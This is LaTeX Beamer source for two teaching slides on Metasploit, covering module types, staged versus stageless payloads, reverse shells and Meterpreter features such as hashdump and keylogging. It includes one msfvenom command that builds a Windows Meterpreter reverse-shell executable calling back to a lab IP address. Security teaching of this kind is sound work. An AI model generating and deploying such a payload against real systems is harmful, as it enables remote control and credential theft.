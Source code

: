 \documentclass[aspectratio=169,11pt]{beamer}
\begin{document}
\begin{frame}{Metasploit: what it is}
  \begin{itemize}
    \item Open-source exploitation framework (Rapid7 + community), the
          de-facto standard for learning exploitation.
    \item Turns the workflow ``find exploit $\to$ pick payload $\to$ deliver
          $\to$ control'' into a uniform interface.
    \item Editions: \textbf{Framework} (free, CLI) vs Pro (commercial, GUI).
  \end{itemize}
  \textbf{Module types --- the mental model:}
  \begin{table}\footnotesize
  \begin{tabular}{@{}ll@{}}
  \toprule
  \texttt{exploits} & code that triggers a vulnerability \\
  \texttt{payloads} & what runs after success (e.g.\ Meterpreter, shell) \\
  \texttt{auxiliary} & scanners, fuzzers, sniffers --- no payload \\
  \texttt{post} & post-exploitation (gather creds, pivot) \\
  \texttt{encoders / nops} & evade naive signatures / pad payloads \\
  \bottomrule
  \end{tabular}
  \end{table}
\end{frame}

\begin{frame}[fragile]{Payloads: staged vs stageless, Meterpreter}
  \begin{itemize}
    \item \textbf{Singles/stageless} --- self-contained
          (\texttt{.../shell\_reverse\_tcp}).
    \item \textbf{Staged} --- tiny stager pulls the rest
          (\texttt{.../meterpreter/reverse\_tcp}), noted by the \texttt{/}.
    \item \textbf{Bind} (attacker connects in) vs \textbf{reverse}
          (target calls home --- beats inbound firewalls, the common case).
    \item \textbf{Meterpreter} --- in-memory, extensible payload: file system,
          \texttt{hashdump}, keylogging, pivoting, all without touching disk.
  \end{itemize}
  \begin{lstlisting}[language=bash]
# msfvenom: generate a standalone payload artifact
msfvenom -p windows/x64/meterpreter/reverse_tcp \
         LHOST=10.10.14.3 LPORT=4444 -f exe -o shell.exe
  \end{lstlisting}
\end{frame}
\end{document}
